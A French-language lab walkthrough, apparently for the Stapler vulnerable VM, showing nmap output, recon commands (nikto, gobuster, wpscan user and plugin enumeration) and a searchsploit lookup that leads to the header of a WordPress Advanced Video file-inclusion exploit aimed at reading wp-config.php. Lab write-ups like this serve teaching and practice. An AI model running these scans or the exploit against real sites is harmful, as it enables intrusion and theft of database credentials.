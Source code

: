 ```bash

TRACEROUTE
HOP RTT     ADDRESS
1   0.56 ms 192.168.56.102

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Oct 21 00:46:05 2018 -- 1 IP address (1 host up) scanned in 143.30 seconds

```

\pagebreak

## On fouine ...

- Sur quels ports sont distribués les services ftp / ssh / samba / apache ? 

On découvre un server web sur le port 12 380. On utilise donc les outils 
d'exploration et on trouve un wordpress. Il faut noter que l'observation du 
fichier d'indexation des moteurs de recherche `robots.txt` aurait permis
d'arriver au même résultat. On se rend donc sur
[https://stapler:12380/blogblog](https://stapler:12380/blogblog).
\
\
`wpscan` est un outil d'analyse des wordpress qui nous permet de 
trouver facilement les exploits et les références associées aux vulnérabilités. On a également besoin de disable tls du fait que le certificat ssl du site web
pose problème (essayez avec les commandes simples, les options servent surtout à
debugguer suivant notre cas).


## On cherche des exploits 

Les outils de scans / d'exploration et d'analyse: 

- `nikto -h (host)`
- `gobuster -w wordlist -u url`
- `wpscan --url https://stapler:12380/blogblog/  --enumerate u --disable-tls-checks --wp-content-dir wp-content`
- `wpscan --url https://stapler:12380/blogblog/  --enumerate vp --disable-tls-checks --wp-content-dir wp-content`

On récupère un script permettant d'exploiter un des plugins du wordpress. \
`searchsploit advanced video`

```
Exploit Title:                                                     |  Path: (/usr/share/exploit-db/)
WordPress Plugin Advanced Video 1.0 - Local File Inclusion         | exploits/php/webapps/39646.py
```

\pagebreak

`cat /usr/share/exploit-db/exploits/webapps/php/39646.py`
```
#!/usr/bin/env python

# Exploit Title: Advanced-Video-Embed Arbitrary File Download / Unauthenticated Post Creation

# Exploit - Print the content of wp-config.php in terminal (default Wordpress config)

import random
import urllib2
import re

url = "http://127.0.0.1/wordpress" # insert url to wordpress

```